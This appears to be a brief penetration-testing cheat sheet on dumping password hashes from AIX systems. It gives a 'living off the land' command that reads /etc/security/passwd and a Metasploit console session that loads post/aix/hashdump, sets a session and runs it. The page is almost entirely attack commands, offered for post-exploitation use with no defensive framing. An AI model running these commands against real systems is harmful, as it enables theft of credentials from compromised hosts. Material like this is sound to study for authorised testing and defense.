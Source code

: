 # Hashdump

## Living off the Land

Password hashes

```
# cat /etc/security/passwd
```

## Metasploit

```
msf > use post/aix/hashdump

msf post(aix/hashdump) > options 

Module options (post/aix/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(aix/hashdump) > set session <session_ID>

msf post(aix/hashdump) > run
```